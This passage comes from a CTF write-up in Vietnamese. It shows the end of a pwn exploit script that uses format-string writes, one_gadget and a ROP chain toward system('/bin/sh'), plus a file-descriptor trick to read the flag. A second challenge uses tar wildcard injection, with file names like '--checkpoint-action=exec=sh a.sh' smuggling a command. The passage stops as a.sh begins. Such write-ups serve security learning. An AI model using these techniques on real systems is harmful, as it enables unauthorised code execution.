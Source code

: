 fmt(one_gadget)


#fmt(pop_rdi)
#fmt(next(libc.search(b'/bin/sh\x00')))
#fmt(pop_rdi+1)
#fmt(libc.sym.system)


p.interactive()
```

- còn 1 vấn đề nữa là vì trong attack nó đóng stdeer , sdout , tuy nhiên chưq đóng stdin nên vẫn có thể lấy flag dc :v  , ở đây ta có thể dùng 

```exec 1>&0 , cat flag*>&0``` ...... , nói chung lệnh đó là khiến 2 thằng thực thi dc chung 1 luồng

tham khảo : 

https://www.kn0sky.com/?p=c8a11e1a-8875-4ff0-966a-f27b6c1a21e6

https://7rocky.github.io/en/ctf/other/htb-unictf/zombienator/


--------



19 . Micro Storage (misc)
-------


nc tới thì dc các option sau : 



![image](https://hackmd.io/_uploads/HJsJ6Lkzkx.png)

- sau khi dùng option 1 các kiểu và thử thằng 5 thì sẽ ra 1 đoạn base64 gì đó 

![image](https://hackmd.io/_uploads/SyPV68kzyl.png)


decode thử thì thấy dc 1 số thông tin , có lẽ là thông tin về file đồ với các quyền 644 , user và group 

![image](https://hackmd.io/_uploads/rkgIaUyMyg.png)


- hmmm , hôm trước cũng làm 1 bài dạng nén nén kiểu này , liệu có leo thang đặc quyền ở đây được không :v

- file giới hạn 32 kí tự , và cũng kh dc xài mấy cái kí tự đặc biệt ~ ` ! @ # $ % ^ & * ( ....



- ta check thử thì thấy
 ![image](https://hackmd.io/_uploads/HJuSAUkfJx.png)

vậy ý tưởng là sẽ tạo 3 file , 1 file --checkpoint=1 , 1 file , --checkpoint-action=exec=sh a.sh  là vì giới hạn kí tự nên cần đặt tên ngắn , với 1 file a.sh với nội dung như sau 

```
#!/bin/bash
